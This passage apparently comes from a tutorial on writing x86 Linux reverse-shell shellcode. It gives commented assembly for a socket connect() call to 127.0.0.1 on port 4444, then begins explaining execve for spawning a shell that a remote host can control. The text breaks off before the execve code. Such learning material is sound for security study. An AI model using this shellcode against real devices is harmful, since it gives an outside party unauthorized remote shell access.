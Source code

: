 The return value stored in EAX should be 0x00 in case of success!

TODO 
**Assembly Code:**

	; EBX ; SYS_CONNECT = 3
	xor ebx, ebx
	mov bl, 0x3

	; ECX, To modify
	; Creation of the struct sockaddr_in
	
	; //////////////// Listening address ////////////
	; Description: Set up the address to listen to
	; Example : 
	; 	push edi ; Push on the stack the address 0.0.0.0
	; 	push 0x00000000 ; Same
	push 0x0100007f ; 127.0.0.1

	; /////////////// Listening port ///////////////
	; Description : Set up the port to listen to
	; Example : push word 0x5c11 ; Push on the stack the port 4444
	push word 0x5c11	
	
	push word 0x2 ; Push the Family AF_INET = 2
	mov ecx, esp ; mov the structure into ecx
	
	; put all parameters into ECX 
		
	push byte 0x10 ; Push on the stack the address length of 16
	push ecx
	push esi ; push the file descriptor
	mov ecx, esp ; Move the stack into ECX
	
	; EAX
	xor eax, eax
	mov al, 0x66

	; connect call
	int 0x80



### <span style="color:#2d8fb3;"> Execve </span>

FInally, now that we created a socket which connect to a remote host, we finally have to launch a shell through that connection allowing the remote host to interact with the device.

    man 2 Execve
    int execve(const char *pathname, char *const argv[], char *const envp[])

The arguments are:

1) const char *pathname: Pointer to the filename

2) char *const argv[]: Pointer to the argument of the function

3) char *const envp[]: Array of pointers to strings passed as environment of the new program
